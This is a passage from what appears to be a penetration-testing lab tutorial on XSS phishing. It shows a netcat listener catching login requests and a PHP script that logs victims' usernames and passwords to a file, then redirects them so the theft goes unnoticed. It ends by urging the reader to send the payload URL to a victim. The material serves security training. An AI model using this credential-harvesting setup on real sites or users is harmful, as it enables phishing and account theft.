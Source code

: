 <hr/>
<h2>Credential Stealing</h2>
<p>Finally, we come to the part where we steal the login credentials when the victim attempts to log in on our injected login form. If you tried to log into the injected login form, you would probably get the error <code>This site can’t be reached</code>. This is because, as mentioned earlier, our HTML form is designed to send the login request to our IP, which should be listening for a connection. If we are not listening for a connection, we will get a <code>site can’t be reached</code> error.</p>
<p>So, let us start a simple <code>netcat</code> server and see what kind of request we get when someone attempts to log in through the form. To do so, we can start listening on port 80 in our Pwnbox, as follows:</p>
<pre><code class="language-shell-session">[!bash!]$ sudo nc -lvnp 80
listening on [any] 80 ...
</code></pre>
<p>Now, let's attempt to login with the credentials <code>test:test</code>, and check the <code>netcat</code> output we get (<code>don't forget to replace OUR_IP in the XSS payload with your actual IP</code>):</p>
<pre><code class="language-shell-session">connect to [10.10.XX.XX] from (UNKNOWN) [10.10.XX.XX] XXXXX
GET /?username=test&amp;password=test&amp;submit=Login HTTP/1.1
Host: 10.10.XX.XX
...SNIP...
</code></pre>
<p>As we can see, we can capture the credentials in the HTTP request URL (<code>/?username=test&amp;password=test</code>). If any victim attempts to log in with the form, we will get their credentials.</p>
<p>However, as we are only listening with a <code>netcat</code> listener, it will not handle the HTTP request correctly, and the victim would get an <code>Unable to connect</code> error, which may raise some suspicions. So, we can use a basic PHP script that logs the credentials from the HTTP request and then returns the victim to the original page without any injections. In this case, the victim may think that they successfully logged in and will use the Image Viewer as intended.</p>
<p>The following PHP script should do what we need, and we will write it to a file on our VM that we'll call <code>index.php</code> and place it in <code>/tmp/tmpserver/</code> (<code>don't forget to replace SERVER_IP with the ip from our exercise</code>):</p>
<pre><code class="language-php">&lt;?php
if (isset($_GET['username']) &amp;&amp; isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?&gt;
</code></pre>
<p>Now that we have our <code>index.php</code> file ready, we can start a <code>PHP</code> listening server, which we can use instead of the basic <code>netcat</code> listener we used earlier:</p>
<pre><code class="language-shell-session">[!bash!]$ mkdir /tmp/tmpserver
[!bash!]$ cd /tmp/tmpserver
[!bash!]$ vi index.php #at this step we wrote our index.php file
[!bash!]$ sudo php -S 0.0.0.0:80
PHP 7.4.15 Development Server (http://0.0.0.0:80) started
</code></pre>
<p>Let's try logging into the injected login form and see what we get. We see that we get redirected to the original Image Viewer page:</p>
<img class="website-screenshot" data-url="http://SERVER_IP/phishing/index.php" src="/storage/modules/103/xss_image_viewer.jpg"/>
<p>If we check the <code>creds.txt</code> file in our Pwnbox, we see that we did get the login credentials:</p>
<pre><code class="language-shell-session">[!bash!]$ cat creds.txt
Username: test | Password: test
</code></pre>
<p>With everything ready, we can start our PHP server and send the URL that includes our XSS payload to our victim, and once they log into the form, we will get their credentials and use them to access their accounts.</p>